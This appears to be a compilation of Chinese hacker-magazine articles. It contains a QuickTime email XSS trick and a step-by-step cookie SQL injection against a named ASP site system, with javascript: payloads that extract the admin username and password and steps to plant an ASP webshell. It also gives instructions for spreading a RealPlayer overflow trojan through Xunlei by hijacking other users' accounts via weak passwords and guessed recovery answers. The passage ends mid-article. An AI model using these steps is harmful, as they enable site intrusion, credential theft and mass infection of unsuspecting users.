



## 一个人的战争

当对方接收到这封邮件的时候，浏览器自动播放 Sample2.mov 文件，而我们的 XSS 语句也执行了，如图 8。你可以把 XSS 语句写得更好些，达到隐藏的目的；）

## 防范方法

不让内嵌的 QuickTime 影片自动播放，当想看的时候下载到本地再播放。禁止自动播放的方法如下。



打开 QuickTime Player，点击“编辑”→“偏好设置”→“QuickTime 偏好设置”；选择浏览器标签栏，取消“自动播放影片”选项，如图 9。

## 小编点评

> 最近上网看到关于 QuickTime 的资料挺多的，正好有作者按来这篇稿件就发表出了，美中不足的就是作者还是习惯性地以自己的水平为中心来写文章，菜菜们还是不大搞得懂这个弹框提示的漏洞有什么用。如果有读者知道把这个 JavaScript 脚本换成带木马的内容，后果就很严重了。有的时候，把危害特别大的技术说含糊点，只让水平高的人从技术的角度去了解漏洞圈内的潜规则；可是如果一整本杂志都是遮遮掩掩的含糊文章，估计小菜们就该不干了。小编相信，当某种技术危害很大的时候，所有人都清楚地了解它的原理和细节，才是这个漏洞的危害消失的时候。就像没有人研究注入漏洞，现在就不会出现防注入的防火墙；没有人研究远程溢出漏洞，不出现蠕虫，大家就不会知道要尽快打补丁。所以我期待以后的文章不再遮掩……（文中涉及到的 QuickTime Pro 已收录到光盘中）

## “注入”黑洞闪过管理系统 2.0

一日在 QQ 上朋友传过来一套“黑洞网站管理系统 2.0”，说是做站要用，叫我帮看看程序的安全性。安装到本地测试一下，首先当然是注入了，在参数 ID 后面加上“and 1=1”，返回如图 1 所示的页面。

JavaScript 脚本将 Cookies 中的 ID 变量的值改变了（这个 48 是原先 ID 变量的值），那么再次访问 http://127.0.0.1/shownews.asp 时，因为没有输入任何的 ID 变量，ASP 程序会自动搜索到 Cookies 里有没有 ID 值，如果有的话就从 Cookies 里获取了，现在访问的效果如图 3。





原来使用了防注入程序，看看它的代码是怎么写的，shownews.asp 文件关键代码如下：

```asp
<%owen=request("id")%>   '直接用 request 取得值
...省略...
sql="select * from news where id=" & owen
rsNews.Open sql,conn,1,1
```

上面的 ID 值根本没有过滤，只是因为文件头使用 `<!--#include file="inc/Check_Sql.asp"-->` 引用了防注入程序，在检测到 POST 或者 GET 方式的注入关键词时停止程序输出。我们知道网页文件在接受处理方式时一般是 POST 或 GET 两种方式，例如 Request.Form 或 Request.QueryString。防注入程序 3.0 正好是只限制这两种方式提交，却没有限制 Request.Cookie 的方式。也就是说，我们不用前面两种方式构造注入语句，而网页文件又没有限制提交方式的，就算用了防注入程序也是不防注的。我们再次来到 http://127.0.0.1/shownews.asp?id=48，把这个 URL 地址去掉，打上我们用 JavaScript 构造的语句：

```javascript
javascript:alert(document.cookie="id="+escape("48 and 1=1"))
```

提交后返回了如图 2 的页面。这个时候，我们已经使用 Cookies 提交方式了，是不是和刚才访问 http://127.0.0.1/shownews.asp?ID=48 时是一样的呢？这说明修改为 Cookies 提交方式成功了。我们再次提交：

```javascript
javascript:alert(document.cookie="id="+escape("48 and 1=2"))
```

然后再访问 http://127.0.0.1/shownews.asp，返回了错误如图 4 所示。说明我们已经绕过了防注入系统的检查，注入成功了。下面我们开始猜管理员密码长度，提交：

```javascript
javascript:alert(document.cookie="id="+escape("48 and (select len(username) from admin)=5"))
```

然后刷新访问 http://127.0.0.1/shownews.asp。这是否看管理员的密码是不是 5 位的，大家根据情况按下后面的数字就 OK 了。接着再提交：

```javascript
javascript:alert(document.cookie='id='+escape('48 and (select len(password) from admin)>16'));
```

如图 5 所示。然后刷新访问：http://127.0.0.1/shownews.asp，站点正常，说明管理员的密码是 16 位的。







继续猜用户名里的内容，构造：

```javascript
javascript:alert(document.cookie='id='+escape('48 and (select asc(mid(username,1,1)) from admin)>97'));
```

这是猜用户名的第一位是不是 a（97 是 a 的 ASCII 码）。刷新后如果网页显示正确的话，就说明用户名第一位是 a。猜第二位把 mid 列名 1,1 改成 mid 列名 2,1……OK 了。将密码的询问句和猜用户名的其实是一样的，我们只要把“username”换成“password”就可以了：

```javascript
javascript:alert(document.cookie='id='+escape('48 and (select asc(mid(password,1,1)) from admin)>97'));
```

辛苦地猜完用户名和密码就可以进入后台了，在后台拿 WEBSHELL 非常容易，传一个 JPG 格式的 ASP 木马，再用数据库备份功能就可以得到 WEBSHELL。这里注意一下，备份后缀多了一个 ASA 后缀，其实没什么作用，直接填 xx.asp 就可以了。最后欢迎大家来交流。





## 小编点评

随着有注入系统和防注入防火墙的出现，注入时代受到冲击。很多站点注入防护并不完善，例如对 COOKIE 注入、POST 数据检测等仍有漏洞。文章提醒读者重视基础安全与实战细节。

## 黑客木马补习

### 什么是木马（Trojan Horse）

木马一词源自希腊神话“特洛伊木马”。在网络安全语境中，木马程序通常伪装成正常程序，运行后可获取系统控制权限。常见用途包括远程控制、盗号等。

### 什么是网页木马

网页木马与传统木马类似，通常将恶意代码嵌入网页文件中。当用户访问页面时，可能利用浏览器或系统漏洞自动下载并执行，从而导致中毒。

## 迅雷肉鸡的温床

近日，受电影《防火墙》的影响，我对下载软件“迅雷”进行了分析，成功捕获了大量的肉鸡！下面把过程与大家分享。

### 一、攻击前奏

迅雷是一个集成了 P2P 功能的下载软件，下载速度快，提供了用户注册功能，在线时长达到一定时间的用户可以在“雷区”发布资源，共享给其他用户下载（如图1）。



首先我们需要准备一个木马文件用于上传到雷区。由于雷区发布的资源大部分都是压缩包文件或者视频，因此可以考虑制作一个自解压运行木马的压缩包文件，也可以将木马与其他程序捆绑在一起，然后打包压缩。不过为了更具有攻击隐蔽性，同时为了说明后面社会工程学的利用，这里利用了一个 RealPlayer 视频木马。

这个视频木马利用了 RealPlayer 的“.smil 文件处理缓冲区溢出漏洞”，当别人播放时会造成溢出，我们就可以连接控制对方的主机。首先将溢出程序“real.exe”下载到本地，在“运行”中输入 CMD 打开命令提示符窗口，进入溢出程序所在的文件夹。溢出程序的命令格式为：

```bash
real.exe <生成文件名>
```

其中生成的文件名是 .smil 后缀的视频文件，直接输入“real.exe 美女的激情视频.smil”，命令执行后提示如图2。



程序执行后已经生成了一个溢出媒体文件“美女的激情视频.smil”，只要存在漏洞的 RealPlayer 程序打开此媒体文件，就会造成溢出并开放 13579 端口。

### 二、窃取迅雷帐号

首先我们先将这个视频上传到任意一个空间，比如 Google 的个人主页空间里面。然后用迅雷将视频下载到本地，在迅雷的下载任务框中，可以看到已下载的文件列表“雷区”栏中有一个“发布”链接。点击菜单“雷区”→“进入雷区”，打开迅雷账号登录对话框，输入自己注册的用户名和密码，登录后在左侧的“雷友信道”中可以看到自己的积分和等级。如果是少校军衔就可以直接点击“发布”链接，或者点击右键，选择弹出菜单中的“发布到雷区”命令，将刚才下载的美女视频发布到迅雷的公共资源区（如图3）。



> 小提示：迅雷官方为了防止发布的资源混乱，因此只有少校以上军衔的雷友可以点击“发布”链接发布资源。如果你的军衔低，就要雇佣一个少校用户来发布资源了。

在程序界面右侧的“热门推荐”中点击“更多”按钮，用 IE 打开雷区资源发布页面，在页面中显示了公共下载资源类别以及每个分类下详细的资源信息（如图4）。在资源信息中找到“资源来源”栏，可以看到发布资源的迅雷用户账号，这些账号肯定都是少校以上级别的。只要盗取其中的某一个账号，就可以将视频木马上传到雷区了。

- **弱口令破解法**：许多用户在注册帐号时为了图方便，往往将密码设置为“111111”或“123456”之类的弱口令，因此我们可以用猜测密码的方法破解列表中的用户帐号。可以一个一个地试，这里我只用了十多分钟就测试到有 4 个密码为“123456”的高级别军衔用户。
- **密码找回法**：一些用户在注册时设置了密码找回功能，这类用户的密码往往设置得较为安全，不易猜测。不过如果你够细心并且想象力丰富，密码找回功能也可以破解出密码。以我为例，在用户列表中看到有一个名为“anshiwei”的用户，很明显这串字符肯定是用户真实姓名的汉语拼音（如图5）。于是先尝试用“123456”登录，结果没有成功，再点击登录框中的“忘记密码”按钮，选择“回答问题找回密码”方式。点击下一步，输入要破解的用户名“anshiwei”，弹出问题回答对话框。问题是“你的姓名是什么？”（如图6），很明显可以利用该用户姓名的汉语拼音推出汉字来——不是“安世伟”，就是“安世威”、“安守伟”之类的，反正总不可能是“俺是痿”吧？呵呵！回答问题只能三次，如果答案错误的话，可以返回登录窗口，再次使用“忘记密码”功能重新猜测。



smil 木马体积比较小，所以我就用 WinRAR 将视频打包压缩，然后再将一个真实的视频文件改名成“登录我们的视频网站.html”，将其添加到压缩包中，这样压缩包的体积大小看起来就正常了。然后在迅雷中选择该文件，点击“发布”，在弹出的发布对话框中设置各种信息，点击“确定”按钮即可将视频木马发布到雷区了（如图7）。

### 三、发布木马

用破解来的帐号登录后，就可以发布视频了，因为生成的 smil 文件体积很小，适当伪装后更容易被下载。

### 四、锁定肉鸡

